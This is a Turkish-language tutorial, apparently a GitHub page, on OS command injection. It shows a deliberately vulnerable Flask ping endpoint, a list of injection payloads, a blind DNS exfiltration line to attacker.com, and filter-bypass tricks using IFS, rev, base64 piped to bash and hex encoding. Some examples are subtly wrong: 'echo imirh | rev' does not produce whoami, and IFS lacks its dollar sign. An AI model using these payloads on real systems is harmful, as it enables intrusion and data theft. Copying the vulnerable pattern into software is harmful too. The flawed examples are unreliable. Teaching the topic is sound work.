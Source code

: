 # Command Injection & Argument Injection
Command Injection, web uygulamalarının kullanıcıdan aldığı girdiyi yeterli doğrulama veya filtreleme yapmadan doğrudan işletim sistemi komutuna iletmesi sonucu ortaya çıkan kritik bir güvenlik açığıdır. Bu zafiyet sayesinde saldırgan, uygulamanın çalıştığı işletim sistemi üzerinde uygulamanın yetkileriyle (çoğunlukla www-data, apache, nginx) arbitrary command execution gerçekleştirebilir.

Command Injection genellikle aşağıdaki koşullarda görülür:
- Kullanıcı girdisinin system(), exec(), shell_exec(), os.system() gibi OS komut çalıştırma fonksiyonlarına parametre olarak verilmesi
- Girdi doğrulama ve sanitize mekanizmalarının eksik veya hatalı olması
- İşletim sistemi komutlarının shell üzerinden çağrılması (örn: /bin/sh -c "komut")

Bu zafiyetin istismarı sonucunda saldırgan, dosya sistemi üzerinde okuma/yazma, ağ bağlantıları kurma, hassas verileri sızdırma gibi saldırılar gerçekleştirebilir.

# Command Injection Saldırısının İşleyişi
Aşağıda, Command Injection zafiyetine sahip bir Flask uygulaması örneği bulunmaktadır. Yorum satırları, kodun işleyişini adım adım açıklar. Bu örnek, kullanıcı girdisinin doğrudan işletim sistemi komutuna iletilmesi sonucu ortaya çıkan güvenlik açığını göstermektedir.

```python
from flask import Flask, request
import subprocess

app = Flask(__name__)

@app.route('/ping', methods=['GET'])
def ping():
    ip = request.args.get('ip')  # /ping?ip=127.0.0.1 ile kullanıcı IP gönderir
    command = 'ping -c 1 ' + ip # Ping komutu oluşturuluyor
    # subprocess.run ile komut çalıştırılıyor. shell=True nedeniyle Command Injection riski var
    result = subprocess.run(command, shell=True, capture_output=True, text=True) # ip adresini eklediği ping komutunu çalıştırır
    return f"<pre>{result.stdout}</pre>"  # Çıktı ekrana yazdırılıyor


if __name__=='__main__': 
   app.run(debug=True) 
```

Geliştirici, kodun şu şekilde çalıştırılacağını varsayar:
```url
http://example.com/ping?ip=google.com
```

Ancak bir saldırgan, shell operatörlerini kullanarak kolayca RCE elde edebilir:
```url
http://example.com/ping?ip=google.com;whoami
```

Bu istek çalışacaktır çünkü kullanıcı girdisi üzerinde herhangi bir filtreleme yapılmamaktadır ve komut olduğu gibi çalıştırılmaktadır. Aşağıda kullanılabilecek bazı parametre örnekleri bulunmaktadır:
```bash
; whoami
& whoami &
&& whoami
| whoami
`whoami`
$(whoami)
|| whoami
```

## Blind Command Injection
Bazı uygulamalarda çıktıyı göremezsiniz. Bu durumda zaman tabanlı veya dışa veri sızdırma yöntemleri kullanılır. Örnekler:
- Zaman tabanlı:
```url
http://example.com/ping?ip=127.0.0.1; sleep 5
```
Yanıtın gecikmesi zafiyeti doğrular.

- DNS/HTTP exfiltration:
```url
http://example.com/ping?ip=127.0.0.1; nslookup $(whoami).attacker.com
```

Sistem bilgisi saldırgan sunucusuna gönderilir.

## Filtreleri Bypasslamak
### {IFS} (Internal Field Separator)
- Amaç: Filtrelenmiş boşluk karakterlerini atlatmak.
- Örnek: ping{IFS}-c{IFS}1{IFS}127.0.0.1 → boşluk yerine {IFS} kullanarak komut hala çalışır.
- Faydası: Özellikle whitelist veya regex tabanlı filtreleri bypass etmek için kullanılır.
- Not: {IFS} sadece POSIX/Linux ortamında çalışır.

### rev Komutu
- Amaç: Komutun tersini yazarak filtreleri atlatmak ve shell üzerinden geri çevirmek.
Örnek:
```bash
echo "dne" | rev  # output: end
```
- Kullanım: Filtreler “whoami” gibi blacklisted kelimeleri engelliyorsa, tersini yazıp rev ile düzeltip çalıştırabilirsin.

Saldırı örneği:
```bash
echo imirh | rev  # whoami çalıştırır
```
### Base64
- Kullanım: Payload’ı Base64 ile encode edip, shell içinde decode ederek çalıştırmak.
Örnek:
```bash
echo "c2ggLWkgL3RtcA==" | base64 -d | bash
```
- Açıklama: c2ggLWkgL3RtcA== → sh -i /tmp komutunu temsil eder.
- Faydası: WAF/filtreler komutu direkt göremez, shell decode edip çalıştırır.

### Hex Encoding
- Kullanım: Karakterleri hex ile kodlayıp shell üzerinde decode etmek.
- Linux örnek:
```bash
echo -e "\x73\x68\x20\x2d\x69"  # sh -i
```